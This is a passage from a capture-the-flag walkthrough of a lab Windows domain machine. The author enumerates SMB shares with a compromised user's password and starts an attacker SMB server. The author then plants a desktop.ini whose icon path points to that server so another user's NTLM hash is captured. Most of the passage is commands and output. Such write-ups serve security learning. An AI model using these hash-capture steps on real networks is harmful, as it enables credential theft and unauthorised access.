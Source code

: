 ### Using S.Moon to create and put a .ini file with a link to our SMB server on Kali to capture the hash of C.Bum

Lets see what we can do with the user S.Moon. I will start enumerating the permissions on SMB shares:

```shell
nxc smb 10.129.228.120 -u S.Moon -p 'S@Ss!K@*t13' --shares
```

```shell
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ
```

It seems like S.Moon has write permissions on the Shared SMB share.

This reminds me at some past CTF I did... maybe we can try putting a link somehow to capture the hash of another user who might click on that file.

To do this exploit and try capturing hashes, I will first start a SMB server on Kali again:

```shell
impacket-smbserver -smb2support kalishare .
```

The next thing I will do is create an .ini file containing a link to the SMB server on my Kali:

```shell
cat desktop.ini

[.ShellClassInfo]
IconResource=\\10.10.14.206\kalishare
```

Lets now access the Shared SMB share using S.Moon and put the file desktop.ini there:

```shell
impacket-smbclient flight.htb/S.Moon:'S@Ss!K@*t13'@10.129.228.120
```

```shell
# ls
[-] No share selected
# shares
ADMIN$
C$
IPC$
NETLOGON
Shared
SYSVOL
Users
Web
# use Shared
# ls
drw-rw-rw-          0  Tue Nov 19 11:30:52 2024 .
```